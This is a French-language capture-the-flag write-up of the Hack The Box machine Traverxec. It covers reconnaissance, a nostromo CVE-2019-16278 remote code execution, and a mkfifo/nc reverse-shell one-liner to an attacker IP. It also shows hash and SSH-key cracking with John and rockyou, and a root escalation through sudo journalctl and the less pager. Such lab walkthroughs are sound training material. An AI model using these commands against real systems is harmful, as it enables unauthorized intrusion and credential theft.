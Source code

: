 # Infos

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/htb-card.png)

# Reconnaissance

## Nmap TCP base

```
nmap -T4 --min-rate 10000 -sV -oN nmap_base 10.129.24.71 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On est sur l'OS Linux, sur le port 80, on retrouve la version de nostromo 1.9.6 qui peut être intéressant pour la suite.

# Enumération

## Port 80/tcp - HTTP

Sur le site, on retrouve une page web statique. Si on se renseigne sur  [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), on peut voir qu'il s'agit d'un serveur web très minimaliste.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-site.png)

En bas de la page, on a un formulaire, mais il ne fonctionne pas

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-form-disabled.png)

## Foothold - www-data

Pas de robots.txt, on commence par fuzz les répertoires et fichiers, mais ça ne donne rien. Si on recherche des exploits en lien avec la version de nostromo, on retrouve un [exploit](https://www.exploit-db.com/exploits/47837) concernant la [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278) permettrant un path traversal dans la fonction `http_verify`, cela mène à une RCE.

L'exploit semble un peu vieux, on va en chercher un autre. Rapidement, on trouve cet [exploit](https://raw.githubusercontent.com/jas502n/CVE-2019-16278/master/CVE-2019-16278.sh) en bash sur Github. Cela nous demande l'hôte comme premier argument, puis le port en second argument et enfin la commande que l'on souhaite.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-rce.png)

Ca fonctionne et on obtient bien une RCE. Essayons maintenant d'obtenir un reverse shell Bash TCP, ça ne fonctionne pas, mais si on essaye avec le reverse shell mkfifo ça passe et on récupère un shell en tant que www-data

`bash CVE-2019-16278.sh 10.129.24.71 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.33 9001 >/tmp/f"`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/shell-www-data.png)

## Mouvement latéral - david

Sur la machine, on retrouve deux utilisateurs, david qui pourrait être notre pivot et le compte root.

Lancement de linpeas, variables d'env

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/www-data-peas-env.png)

Fichier .htpasswd

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/www-data-peas-htpasswd.png)

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

On peut tenter de cracker ce hash et ça fonctionne `Nowonly4me`, mais impossible d'utiliser ce mot de passe via su ou SSH

`john --format=md5crypt hash-md5-david.txt --wordlist=/opt/rockyou.txt`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-crack-hash.png)

Dans le répertoire contenant le server web nostromo, on retrouve un fichier de conf `nhttpd.conf` qui nous permet de voir qu'il y a un dossier accessible `public_www` sous `/home/david/public_www`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-conf-nostromo.png)

Quand on y accède on retrouve un fichier et un dossier :
- index.html
- protected-file-area -> folder

Dans ce dossier on retrouve également deux fichiers :
- .htaccess -> ne donne rien
- backup-ssh-identity-files.tgz -> archive d'un backup SSH -> juicy :p

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-tgz.png)

On ne peut pas décompresser l'archive sur la target, mais on peut essayer de le transférer sur la machine d'attaque. Ca ne fonctionne pas, on peut tenter de copier le fichier dans /tmp, lui assigner les droits et le décompresser

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-ssh.png)

Ca fonctionne et on retrouve sa clé privée RSA chiffrée sous `/tmp/home/david/.ssh/id_rsa`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david_idrsa_crypt.png)

Utilisation de ssh2john pour générer un hash

`/opt/tools/john/run/ssh2john.py id_rsa_david > id_rsa_david_hash`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-idrsa_hash.png)

Crack avec JtR, on retrouve le mdp `hunter`

`john id_rsa_david_hash --wordlist=/opt/rockyou.txt`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-idrsa_crack.png)

Tentative de connexion en SSH et récupération du flag user.txt

`ssh -i id_rsa_david david@10.129.24.71`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/userflag.png)

## Elévation de privilèges - root

Lancement de linpeas pour trouver un path pour le root, sous `/home/david/bin/` on retrouve le fichier `server-stats.sh` qui fait appel à la commande sudo, ce qui pourrait être intéressant pour obtenir le compte root.

Si on l'exécute, on obtient ceci

`./server-stats.sh`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/pe-server-stats.png)

La dernière ligne fait appel à sudo sur journalctl, cela va ouvrir un less, on peut privesc de cette manière `!/bin/bash`

`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

Après plusieurs tentatives, il faut deux terminaux pour que ça fonctionne, en effet si on tente avec un seul, le pager less ne se lance pas.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/pe-suid-error.png)

Alors qu'avec deux terminaux, ça fonctionne. On peut récupérer le dernier flag

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/rootflag.png)
